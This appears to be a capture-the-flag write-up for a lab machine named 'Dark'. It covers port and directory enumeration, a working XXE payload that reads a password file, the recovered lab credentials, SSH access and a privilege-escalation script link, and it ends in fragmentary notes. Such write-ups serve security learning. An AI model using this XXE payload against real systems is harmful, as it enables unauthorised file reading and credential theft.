

# Dark

__MACHINE IP__: 10.1.1.30

__DATE__: 20/05/2019

__START TIME__: 1:40 PM


`NMAP`
------



I don't know why it showed the port `7007` as filtered, because when I checked that port I got `closed`.


`dirsearch`
------------


hmm...So we have some accesible directories. Let's see what we can find in them.

I got nothing interesting in the `js` and `img` but in `backup/` we got another URL


I couldn't figure out what this path refering to until I saw `XML` function in the `source` of the page.


This is basically reference to `XXE` attack. The path that we got from `backup` is actually telling us where's the `password` are kept or in other words we have to use XXE to access that file/path.

Now, If we capture the request sent while submitting the form we will find the following XML in body request

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <name>name</name>
    <tel>tel</tel>
    <email>email</email>
    <password>passswrd</password>
</root>
```
Instead of sending this we can edit the code to be

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/lord/password_backup.txt" >]>
<root>
    <name>me</name>
    <tel>666</tel>
    <email>&xxe;</email>
    <password></password>
</root>
```

This is XXE attack.


Okay so now we have the user name `lord` and password `sunnysunshine!5`

User pwn
--------

Just ssh into machine using those credentials and get the user.


- get LinENum make a script with nano()
- https://raw.githubusercontent.com/itsKindred/jalesc/master/jalesc.sh


supereasypassword101if


